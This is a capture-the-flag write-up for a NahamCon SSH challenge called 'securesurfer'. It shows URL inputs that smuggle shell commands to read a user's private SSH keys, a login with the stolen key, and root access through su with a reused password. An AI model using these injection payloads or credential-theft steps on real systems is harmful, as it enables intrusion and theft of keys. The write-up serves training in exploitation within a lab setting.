 ## misc/securesurfer

The tech influencers were right!! SSH for everything really is the future! With SecureSurfer, you can surf the world wide web... all through your terminal!

Escalate your privileges and run the program in the root user's home directory.

**Given:** securesurfer.c

```
# Password is "userpass"
ssh -p <port> user@challenge.nahamcon.com
```

## Solution

Connecting to SSH gives us securesurfer program instead of login shell. From `securesurfer.c`, we can see that our input is appended to a shell command.
By doing shell injection, we get remote shell as user `securesurfer` (even though we login as user `user`).

URL inputs with shell injection to get ssh keys,
```
https://invalid.domain/'; cat '/home/securesurfer/.ssh/id_ecdsa
https://invalid.domain/'; cat '/home/securesurfer/.ssh/id_ecdsa.pub
https://invalid.domain/'; cat '/home/securesurfer/.ssh/authorized_keys
```

SSH authorized_keys shows that `securesurfer` user can be authorized with its own key. So we can login as `securesurfer` in SSH to get an interactive shell.

```
ssh -p <port> -i id_ecdsa securesurfer@challenge.nahamcon.com
```

The flag.txt is present in `root` user directory. On exploring further for privilege escalation, turns out `root` user also has password as `userpass`. But login shell is set to invalid entry in `/etc/passwd`. At this point, we know following,

```
user: user
password: userpass
Shell: No
```
```
user: securesurfer
auth: id_ecdsa
Shell: Yes
```
```
user: root
auth: userpass
Shell: No
```

We cannot login as `root` via SSH as the login shell is invalid. However, we can SSH as `securesurfer` and use `su` command to switch to root by overriding the shell.

```
su -s /bin/bash root
password: userpass
```
